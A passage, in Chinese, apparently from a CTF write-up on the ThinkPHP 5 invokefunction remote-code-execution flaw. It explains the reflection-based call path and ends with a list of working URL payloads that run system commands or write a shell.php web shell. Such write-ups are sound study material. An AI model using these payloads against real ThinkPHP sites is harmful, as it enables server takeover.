 这个 invokeFunction 方法通过`反射机制`动态调用一个函数，同时可以灵活绑定参数。它的核心功能是接受一个函数名和参数列表（`数组`），然后使用 PHP 的 ReflectionFunction 来安全地调用该函数，这个函数要可以处理数组，要达到rce的目标，可以使用`call_user_func_array`函数

```php
public static function invokeFunction($function, $vars = [])
{
    $reflect = new \ReflectionFunction($function);
    $args    = self::bindParams($reflect, $vars);

    // 记录执行信息
    self::$debug && Log::record('[ RUN ] ' . $reflect->__toString(), 'info');

    return $reflect->invokeArgs($args);
}
```

![40](/medias/show-think/40.png)


好了，那么一切都迎刃而解了。这个路由和方法太过于危险，如果普通用户也可以访问利用来执行命令非常可怕，事实上默认配置也是允许用户访问的，所以题目描述`未开启强制路由RCE`。

那么，理论上只要可以访问这个方法就可以实现rce，把常用的路由模式都是一遍（x），[新的url模式](https://www.kancloud.cn/manual/thinkphp5/118012)，并且tp5默认url不区分大小写了


- http://serverName/index.php（或者其它应用入口文件）/模块/控制器/操作/[参数名/参数值...]
- http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]

这里第一种方式似乎解析不了，用第二种`?s`来解析

```php
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```

tp5的一些常用payload：

```php
?s=index/think\Request/input&filter=system&data=dir
?s=index/think\Request/input&filter[]=system&data=pwd
?s=index/think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/think\Container/invokefunction&function=call_user_func&vars[]=system&vars[]=dir
?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
